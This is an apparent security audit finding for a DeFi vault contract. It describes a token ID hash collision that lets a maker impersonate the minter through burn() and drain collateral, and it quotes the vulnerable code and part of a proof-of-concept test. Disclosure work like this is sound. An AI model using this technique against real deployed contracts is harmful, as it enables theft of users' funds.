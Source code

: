 
## Critical Findings

### 1. Critical - Token ID collision enables vault drainage

A collision in how token IDs are generated can be maliciously used by the maker to remove the minter's assets.

#### Technical Details

The implementation of [CrvUSDDualVault.sol](https://github.com/sofa-org/sofa-protocol/blob/2b45e2bd01141cb6dd8302f8ea8579de0fbc6c9e/contracts/vaults/CrvUSDDualVault.sol#L21) uses two different ways of generating the corresponding tokens IDs to minter and maker.

```solidity
342:     function getProductId(uint256 expiry, uint256 anchorPrice, uint256 isMaker) public pure returns (uint256) {
343:         return uint256(keccak256(abi.encodePacked(expiry, anchorPrice, isMaker)));
344:     }
345:
346:     function getMinterProductId(uint256 expiry, uint256 anchorPrice, uint256 premiumPercentage) public pure returns (uint256) {
347:         return uint256(keccak256(abi.encodePacked(expiry, anchorPrice, premiumPercentage)));
348:     }
349:
```

The minter gets a token with `ID=keccak(expiry, anchorPrice, premiumPercentage)`, and the maker gets one with `ID=keccak(expiry, anchorPrice, 1)`. By setting a `premiumPercentage` value of 1, their hashes collide, leading to both IDs being the same.

The [`burn()`](https://github.com/sofa-org/sofa-protocol/blob/2b45e2bd01141cb6dd8302f8ea8579de0fbc6c9e/contracts/vaults/CrvUSDDualVault.sol#L261) function takes the premium percentage as a user-supplied argument. A malicious maker can call this function with `premiumPercentage = 1` pretending to be the minter, an action that would be allowed since the token ID will result in the same value as the maker token ID.

This way, an attacker can steal the minter's collateral and quote assets by calling `burn()` after maturity. The attacker can also create a fake agreement between a minter and a maker they control to withdraw the provided assets twice, draining the vault.

##### Proof of Concept

```solidity
function test_dualVault_collision() public {
    uint256 totalCollateral = 1_000e18;
    uint256 expiry = block.timestamp + 14 days;
    uint256 makerCollateral = 500e18;
    uint256 anchorPrice = 3_000e8;
    uint256 premiumPercentage = makerCollateral * 1e18 / totalCollateral;

    deal(crvUSD, user, totalCollateral - makerCollateral);
    deal(crvUSD, maker, makerCollateral);

    CrvUSDDualVault.MintParams memory mintParams = CrvUSDDualVault.MintParams({
        expiry: expiry,
        anchorPrice: anchorPrice,
        makerCollateral: makerCollateral,
        deadline: expiry,
        maker: maker,
        makerSignature: ""
    });

    vm.prank(user);
    dualVault.mint(totalCollateral, mintParams, address(0xdead));

    vm.warp(expiry + 2 hours);
```